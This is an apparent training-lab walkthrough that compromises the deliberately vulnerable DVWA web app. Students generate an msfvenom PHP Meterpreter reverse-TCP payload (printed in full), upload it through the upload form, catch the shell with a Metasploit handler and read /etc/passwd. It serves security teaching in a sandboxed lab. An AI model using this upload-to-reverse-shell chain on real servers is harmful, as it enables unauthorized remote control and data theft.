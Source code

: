 Exercise 2: Exploiting a Web Server
-----------------------------------

This exploit uses some of the basic functions of the DVWA web site to
demonstrate how to hack through the site itself. A hacker would use this
as a means of circumventing your perimeter to gain access to your
applications, servers, and data.

We will start by creating a pre-canned piece of PHP code that we will
upload to the web server through the upload function on DVWA. For this
exercise you will need to locate the external IP for your Kali server.
This IP is generated dynamically for each student but we have written a
script and an iRule on the CTF server to return the IP address you'll
need.

On the Kali server, run the following:

.. code-block:: none

    $ msfvenom -p php/meterpreter/reverse_tcp lport=4444 -f raw lhost=`curl -k https://ctf.f5lab.biz/whatismyip`
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100    14  100    14    0     0    492      0 --:--:-- --:--:-- --:--:--   518

    No platform was selected, choosing Msf::Module::Platform::PHP from the
    payload
    No Arch selected, selecting Arch: php from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 950 bytes

    /*<?php /**/ error_reporting(0); $ip = '<YOUR-IP>'; $port = 4444; if
    (($f = 'stream_socket_client') && is_callable($f)) { $s =
    $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } elseif (($f =
    'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type =
    'stream'; } elseif (($f = 'socket_create') && is_callable($f)) { $s =
    $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip,
    $port); if (!$res) { die(); } $s_type = 'socket'; } else { die('no
    socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) {
    case 'stream': $len = fread($s, 4); break; case 'socket': $len =
    socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen",
    $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch
    ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break;
    case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } }
    $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type;
    eval($b); die();

Highlight the section of code that was generated from the `/*<?php` to
the end `die();`

Open a :guilabel:`Command Prompt` on the Windows PC. In the command
prompt type:

.. code-block:: none

    cd Desktop
    notepad hackdvwa.php

..  image:: /_static/class2/cmd1.png

In Notepad, paste the copied code and :menuselection:`Save` and close
the file.

..  image:: /_static/class2/notepad.png

Open a Web Browser and go to https://dvwa.vlab.f5demo.com

Log in with `admin` / `password`

Choose the :guilabel:`Upload` menu on the lower left

..  image:: /_static/class2/dvwa.png

Click :guilabel:`Choose File` and select the `hackdvwa.php` file you
just created on the Desktop and click :guilabel:`Upload`

..  image:: /_static/class2/explorer.png

..  image:: /_static/class2/upload.png

The file is then posted to the server and the location is displayed for
you as a means of confirmation. You can copy this and paste it at the
end of the URL in the browser.

In the browser, visit that file's location:
http://dvwa.vlab.f5demo.com/hackable/uploads/hackdvwa.php

This will actually fail and you should see a "no socket" message, but
we'll set that up next.

Back to the Kali ssh session we will set up the server to connect to
from the web server.

If you're not within msfconsole anymore, start it:

.. code-block:: none

    $ msfconsole

Now we want to choose an exploit to run.

.. code-block:: none

    msf > use exploit/multi/handler

To see what is selected for this exploit by default, type:

.. code-block:: none

    msf > options

    Module options (exploit/multi/handler):

        Name Current Setting Required Description
        ---- --------------- -------- -----------

    Exploit target:

        Id Name
        -- ----
        0  Wildcard Target

this selects the exploit we'll run in Metasploit

.. code-block:: none

    msf > set payload php/meterpreter/reverse_tcp

To see the options for this payload, type:

.. code-block:: none

    msf > options

    Module options (exploit/multi/handler):

        Name Current Setting Required Description
        ---- --------------- -------- -----------

    Payload options (php/meterpreter/reverse_tcp):

        Name  Current Setting Required Description
        ----  --------------- -------- -----------
        LHOST                 yes      The listen address
        LPORT 4444            yes      The listen port

    Exploit target:

        Id Name
        -- ----
        0  Wildcard Target

This chooses the actual payload we're going to send through the exploit
and we'll set some parameters. To see the options:

.. code-block:: none

    msf exploit(handler) > set payload php/meterpreter/reverse_tcp
    payload => php/meterpreter/reverse_tcp

    msf exploit(handler) > show options

    Module options (exploit/multi/handler):

        Name Current Setting Required Description
        ---- --------------- -------- -----------

    Payload options (php/meterpreter/reverse_tcp):

        Name  Current Setting Required Description
        ----  --------------- -------- -----------
        LHOST                 yes      The listen address
        LPORT 4444            yes      The listen port

    Exploit target:

        Id Name
        -- ----
        0  Wildcard Target

Set the options as follows:

.. code-block:: none

    mfs > set lhost 10.1.10.240
    mfs > set lport 4444

lhost and lport
^^^^^^^^^^^^^^^

These options are the 'local' listening IP and port for the exploit.
Note that the IP here is the internal NAT'd IP address. In the above PHP
code you entered the External NAT'd address.

Return to your web browser on the Windows PC and refresh the page.

Now we can start the server:

.. code-block:: none

    mfs > exploit

exploit
^^^^^^^

Exploit is the fun command... here we are running the exploit we want to
see. You can also use `run` but exploit is so much more Hacker.

After a few seconds, you should see:

.. code-block:: none

    [*] Started reverse TCP handler on 10.1.10.240:4444
    [*] Starting the payload handler...
    [*] Sending stage (33986 bytes) to <YOURIP>
    [*] Meterpreter session 3 opened (10.1.10.240:4444 -> <IP>:PORT) at <Date>

And then a moment or two later:

.. code-block:: none

    meterpreter >

Meterpreter
-----------

Meterpreter is the "Swiss Army Knife" of the Metasploit Framework. You
can open a meterpreter console up through an exploit, like we just did.
In this case, we set up Metasploit to listen for incoming traffic on
port 4444 on our NAT'd internet address. We had to do this because the
DMZ address isn't accessible by the Web Server but it is allowed to
connect to the internet. We then run the uploaded PHP code we generated
which opens the connection and now we're able to run commands on the web
server as though we had an ssh-like connection.

Let's examine the web server so see what we can find.

In the Meterpreter shell type:

.. code-block:: none

    meterpreter > dir

We can the following:

.. code-block:: none

    meterpreter > dir
    Listing: /var/www/dvwa/hackable/uploads
    =======================================

    Mode              Size  Type  Last modified              Name
    ----              ----  ----  -------------              ----
    100644/rw-r--r--  667   fil   2013-07-08 12:55:06 -0400  dvwa_email.png
    100644/rw-r--r--  950   fil   2017-06-19 09:11:52 -0400  hackdvwa.php
    100644/rw-r--r--  951   fil   2017-06-14 13:50:15 -0400  hackme.php.txt

We can see what accounts are on this server by typing:

.. code-block:: none

    meterpreter > cat /etc/passwd

To see a list of the commands that are available to you, you can type
`help` at any point

Feel free to investigate the web server, when you're finished type
`exit` and the Meterpreter shell will close.

Note that when you close the session, the web page finally ends
spinning.
